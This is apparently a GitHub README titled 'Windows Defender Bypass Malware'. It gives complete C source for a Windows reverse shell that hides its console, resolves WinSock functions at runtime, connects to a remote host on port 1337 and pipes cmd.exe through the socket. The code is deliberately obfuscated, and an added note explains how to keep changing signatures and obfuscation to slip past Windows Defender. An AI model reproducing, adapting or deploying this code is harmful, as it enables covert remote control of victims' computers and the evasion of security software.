 # Windows Defender Bypass Malware

This program demonstrates how to establish a remote connection to a server using the WinSock2 library and execute a command prompt (`cmd.exe`) on a Windows system. The code dynamically loads functions from `ws2_32.dll` and uses these functions to perform network operations.

## Prerequisites

- A Windows environment.
- Visual Studio or any other C/C++ compiler for Windows.
- `ws2_32.dll` should be present on the system (it's a standard DLL provided by Windows).

## Detailed Description

### Code Breakdown

#### Include Headers and Library

```c
#include <stdio.h>
#include <windows.h>
#include <WinSock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>

#pragma comment(lib, "user32.lib")
These headers provide the necessary functions and definitions for Windows API, network operations, and standard I/O operations.

//Typedef Function Pointers

typedef int (WSAAPI *lpfnWSAStartup)(WORD wVersionRequired, LPWSADATA lpWSAData);
typedef int (WSAAPI *lpfnWSACleanup)(void);
typedef SOCKET (WSAAPI *lpfnWSASocket)(int af, int type, int protocol, LPWSAPROTOCOL_INFO lpProtocolInfo, GROUP g, DWORD dwFlags);
typedef int (WSAAPI *lpfnWSAConnect)(SOCKET s, const struct sockaddr *name, int namelen, LPWSABUF lpCallerData, LPWSABUF lpCalleeData, LPQOS lpSQOS, LPQOS lpGQOS);
typedef int (WSAAPI *lpfnRecv)(SOCKET s, char *buf, int len, int flags);

These typedefs declare pointers to the functions we will dynamically load from ws2_32.dll.

//Main Function
int main(int argc, char* argv[]) {
    FreeConsole();  // Hide the console window

    HMODULE hwww = LoadLibrary("ws2_32.dll");  // Load ws2_32.dll dynamically
    if (hwww == NULL) {
        printf("Could not load ws2_32.dll\n");
        return 1;
    }
// Get Function Address
    lpfnWSAStartup uywueftuwefwuuw = (lpfnWSAStartup)GetProcAddress(hwww, "WSAStartup");
    lpfnWSACleanup ploskdmcnc = (lpfnWSACleanup)GetProcAddress(hwww, "WSACleanup");
    lpfnWSASocket yncsj = (lpfnWSASocket)GetProcAddress(hwww, "WSASocketW");
    lpfnWSAConnect llllosksuua = (lpfnWSAConnect)GetProcAddress(hwww, "WSAConnect");
    lpfnRecv ujvjcmvcmvcmmcjyhn = (lpfnRecv)GetProcAddress(hwww, "recv");

    if (!uywueftuwefwuuw || !ploskdmcnc || !yncsj || !llllosksuua || !ujvjcmvcmvcmmcjyhn) {
        printf("Could not get function addresses\n");
        FreeLibrary(hwww);
        return 1;
    }
// Initialize WinSock and Create a Socket
WSADATA ietuwecwtuecwucuwaa;
    uywueftuwefwuuw(MAKEWORD(2, 2), &ietuwecwtuecwucuwaa);  // Initialize WinSock
    SOCKET qqweretrwqcqqmmn = yncsj(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);  // Create a TCP socket

// Configure Server Address
    struct sockaddr_in Inksjshsfww;
    Inksjshsfww.sin_port = htons(1337);  // Port number
    Inksjshsfww.sin_family = AF_INET;
    Inksjshsfww.sin_addr.s_addr = inet_addr("192.168.1.1");  // Server IP address

// Connect to Server
    int lthnbvmdl = llllosksuua(qqweretrwqcqqmmn, (SOCKADDR*)&Inksjshsfww, sizeof(Inksjshsfww), NULL, NULL, NULL, NULL);
    if (lthnbvmdl == SOCKET_ERROR) {
        printf("Connection Error to the server: %lu\n", WSAGetLastError());
        ploskdmcnc();
        FreeLibrary(hwww);
        return 1;
    }
// Receive Data and STARTUPINFO
    char awqszxa[4096];
    ujvjcmvcmvcmmcjyhn(qqweretrwqcqqmmn, awqszxa, sizeof(awqszxa), 0);  // Receive data

    STARTUPINFO siosusg;
    for (int i = 0; i < sizeof(siosusg); i++) {
        ((char*)&siosusg)[i] ^= ((char*)&siosusg)[i];
    } 
    siosusg.cb = sizeof(siosusg);
    siosusg.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    siosusg.hStdInput = siosusg.hStdOutput = siosusg.hStdError = (HANDLE)qqweretrwqcqqmmn;

// Construct Command String and Create Process
    char b[3] = "cm";
    char c[4] = "d.e";
    char d[2] = "x";
    char e[2] = "e";
    char sdj[10];
    sdj[0] = '\0'; 

    strcat(sdj, b); 
    strcat(sdj, c); 
    strcat(sdj, d);
    strcat(sdj, e);

    PROCESS_INFORMATION iloksj;
    BOOL sbdsksck = CreateProcess(NULL, sdj, NULL, NULL, TRUE, CREATE_NO_WINDOW | IDLE_PRIORITY_CLASS, NULL, NULL, &siosusg, &iloksj);
    if (!sbdsksck){
        printf("Cannot create a thread\n");
        printf("Error is:%lu\n", GetLastError());
    }
    WaitForSingleObject(iloksj.hProcess, INFINITE);

    CloseHandle(iloksj.hThread);
    CloseHandle(iloksj.hProcess);

// Cleanup and Exit
    memset(awqszxa, 0, sizeof(awqszxa));
    ploskdmcnc();
    FreeLibrary(hwww);
    return 0;
}
```
## Obfuscation Note

The variable names and certain parts of the code are obfuscated to evade static analysis detection by Windows Defender. If you want to bypass detection again, please change the file signature and obfuscate the code in different ways, as Windows Defender can capture static patterns.

## Summary
This program demonstrates how to dynamically load network-related functions from ws2_32.dll, create a TCP socket, connect to a remote server, and execute a command prompt using the Windows API. It is an example of low-level network programming and process management in C on a Windows platform. Use this knowledge responsibly and ethically.
